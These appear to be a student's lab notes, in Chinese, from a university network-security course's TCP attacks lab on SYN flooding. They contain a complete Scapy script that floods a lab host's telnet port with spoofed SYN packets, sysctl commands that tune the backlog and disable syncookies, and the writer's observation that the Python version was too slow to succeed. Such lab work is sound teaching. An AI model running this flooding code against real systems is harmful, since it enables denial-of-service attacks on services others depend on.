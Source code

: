## Task 1.1: Launching the Attack Using Python
我们提供了一个名为synflood.py的Python程序，但是我们故意在代码中遗漏了一些必要的数据。此代码发送被欺骗的TCP SYN数据包，具有随机生成的源IP地址、源端口和序列号。学生应该完成代码，然后使用它来对目标机器发起攻击：
```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

# ip = IP(dst="*.*.*.*")
# tcp = TCP(dport=**, flags=’S’)

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, seq=1551, flags='S')
pkt = ip/tcp

while True:

	pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
	pkt[TCP].sport = getrandbits(16) # source port
	pkt[TCP].seq = getrandbits(32) # sequence number
	send(pkt, verbose = 0)

```


队列的大小：在队列中可以存储多少个半开的连接会影响攻击的成功率。可以使用以下命令调整队列的大小：

sysctl -w net.ipv4.tcp_max_syn_backlog=80


给脚本添加执行权限，然后在Attacker上使用Python脚本再测试一遍。

![[py1.png]]

但是官方教程表示该过程不会成功，是因为该过程中Victim发送的SYN+ACK包被网关收到后会发送RST包给Victim(具体原因可见教程PDF)，之后Victim会清除队列里的对应项。所以这就导致只有脚本发送数据包的速度足够快该实验才能成功。C的速度足够快可以成功，但是Python脚本发送数据包的速度太慢了，所以不足以成功。经过测试后，发现确实是这样，当试图和Victim建立telnet连接时，会停顿1~2秒，但是之后又可以正常建立连接了，看来确实是Python发送包的速度不够快。


**让攻击至少一分钟，然后试着进入受害者机器，看看是否能成功。你的攻击很有可能会失败。多种问题可能会导致攻击的失败。下面列出了它们，以及关于如何解决它们的指导方针。**
文档里面的不看了




## Task 1.2: Launch the Attack Using C
**攻击前的工作:**
1. SYN Flooding攻击之前Victim主机已经设置syncookies=0。
```
# sysctl -a | grep syncookies
```
![[大三下/网络与信息安全/TCP_Attacks Lab/attachments/3.png]]
